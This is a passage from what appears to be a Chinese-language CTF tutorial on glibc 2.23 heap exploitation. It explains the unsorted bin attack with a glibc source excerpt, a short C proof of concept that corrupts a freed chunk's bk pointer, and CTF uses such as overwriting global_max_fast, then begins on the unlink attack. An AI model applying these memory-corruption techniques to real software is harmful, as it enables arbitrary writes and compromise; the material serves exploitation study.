 ```c
造成源码: glibc-2.23/malloc/malloc.c:3454

/* remove from unsorted list */
    unsorted_chunks (av)->bk = bck;
    bck->fd = unsorted_chunks (av); //将其fake chunk的fd修改为av
```

ctf情形:
有时候出现随机化的8字节key值储存在某地址中，我们已知道key的地址，还有泄漏libc，我们就可以通过unsorted bin attack将key值修改为我们已知的值。
(2020祥云杯初赛 pwn1)

若有时候程序将max_global_fast设置为0，意味着不能利用fastbin attack，我们就可以通过unsorted bin attack修改max_global_fast为一个大值，后续就可以很方便的通过fastbin attack了。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char *ptr = NULL, *controllable_chunk, *trigger;

    controllable_chunk = malloc(400);
    malloc(10); // 防止与top chunk合并

    free(controllable_chunk);
    // controllable_chunk->bk = target - size_t*2
    ((void **)controllable_chunk)[1] = &ptr - 2;

    // 这里要和free的size相同，否则会引发异常
    trigger = malloc(400);

    fprintf(stderr, "ptr: %p\n ", ptr);
    return 0;
}
```



#### Unlink attack

unlink是一种攻击手段，与unsorted bin attack差不多，这里主要讲解glibc 2.23中的unlink，古老的unlink检查比较少，这里不讨论。unlink 简单的说就是unsorted bin在进行合并堆块的时候，需要对上一个chunk进行解链。若将当前即将解链的chunk叫做P，则解链过程如下:

P->fd->bk = P->bk
P->bk->fd = P->fd

这里的P->fd->bk与P->fd->fd的原来值就是P，若我们控制P的fd与bk，那么就可以实现P->fd->bk中写入P->bk的值。
攻击实现效果： 合并堆块、开辟内存至我们伪造的fake chunk中。

针对与古老的unlink就可以直接利用，但是目前glibc 2.23中的unlink检查如下：

```
// fd bk
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  
```
